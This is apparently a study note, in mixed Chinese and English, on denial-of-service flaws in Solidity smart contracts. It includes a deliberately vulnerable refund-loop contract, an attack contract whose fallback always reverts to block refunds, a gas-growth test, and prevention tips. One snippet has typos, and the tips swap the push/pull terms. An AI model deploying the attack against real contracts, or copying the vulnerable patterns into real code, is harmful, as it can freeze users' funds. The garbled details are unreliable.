 ```yaml
---
title: DDos
---
```

# DDos

在 Web2 中，拒绝服务攻击（DoS）是指通过向服务器发送大量垃圾信息或干扰信息的方式，导致服务器无法向正常用户提供服务的现象。而在 Web3，它指的是利用漏洞使得智能合约无法正常提供服务。

Like loop , 如果有10000个人进入，那么将会消耗大量的Gas，这样就会有DDOS。

# Type

1. Simply have external call revert
2. To transfer token to an address which is BlackListedA
3. Send ether to an contract that does not except it
4. Call an function on an contract that does not have fallback function or not have the function on it
5. Return data that is not in the expected format
6. Consume so much gas with the External Call

# 1-Simply have external call revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

漏洞存在于退款的：

```solidity
  (bool success, ) = player.call{value: refundETH}("");
```

一旦用户的地址存在恶意函数写在回退函数中，就会触发DDOS，比如:

```solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```


# 3-Send ether to an contract that does not except it

- Dont have receive
- call a function which does not exit
- runs out of gas
- thirdparty contract is simply MALICIOUS

# 4-Call an function on an contract that does not have fallback function or not have the function on it

# 6-Consume so much gas with the External Call

## Example 1:

`Dos.so`l:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract DoS {
    address[] entrants;

    function enter() public {
        // Check for duplicate entrants
        for (uint256 i; i < entrants.length; i++) {
            if (entrants[i] == msg.sender) {
                revert("You've already entered!");
            }
        }
        entrants.push(msg.sender);
    }
}
```

`Test.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {DoS} from "../../src/denial-of-service/DoS.sol";

contract DoSTest is Test {
    DoS public dos;

    address warmUpAddress = makeAddr("warmUp");
    address personA = makeAddr("A");
    address personB = makeAddr("B");
    address personC = makeAddr("C");

    function setUp() public {
        dos = new DoS();
    }

    function test_denialOfService() public {
        // We want to warm up the storage stuff
        vm.prank(warmUpAddress);
        dos.enter();

        uint256 gasStartA = gasleft();
        vm.prank(personA);
        dos.enter();
        uint256 gasCostA = gasStartA - gasleft();

        uint256 gasStartB = gasleft();
        vm.prank(personB);
        dos.enter();
        uint256 gasCostB = gasStartB - gasleft();

        uint256 gasStartC = gasleft();
        vm.prank(personC);
        dos.enter();
        uint256 gasCostC = gasStartC - gasleft();

        console2.log("Gas cost A: %s", gasCostA);
        console2.log("Gas cost B: %s", gasCostB);
        console2.log("Gas cost C: %s", gasCostC);

        // The gas cost will just keep rising, making it harder and harder for new people to enter!
        assert(gasCostC > gasCostB);
        assert(gasCostB > gasCostA);
    }
}
```

## Example2 :

```solidity
function distributeDividends(uint256 amount) public payable lock {
        require(amount == msg.value, "don't cheat");
        uint256 length = users.length;
        amount = amount.mul(magnitude);
        for (uint256 i; i < lekgth; ++i) {
            if (users[i] != address(0)) {
                UserInfo storage user = userInfo[users[i]];
                user.rewards +=
                    (amount.mul(IERC20(address(this)).balanceOf(users[i])).div(totalSupply.SUb(MINIMUM_LIOUIDITY)));
            }
        }
    }
```

# 预防方法

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。以下是一些需要特别注意的地方：

1. 外部合约的函数调用（例如 `call`）失败时不会使得重要功能卡死，比如将上面漏洞合约中的 `require(success, "Refund Fail!");` 去掉，退款在单个地址失败时仍能继续运行。
2. 合约不会出乎意料的自毁。
3. 合约不会进入无限循环。
4. `require` 和 `assert` 的参数设定正确。
5. 退款时，让用户从合约自行领取（push），而非批量发送给用户(pull)。
6. 确保回调函数不会影响正常合约运行。
7. 确保当合约的参与者（例如 `owner`）永远缺席时，合约的主要业务仍能顺利运行。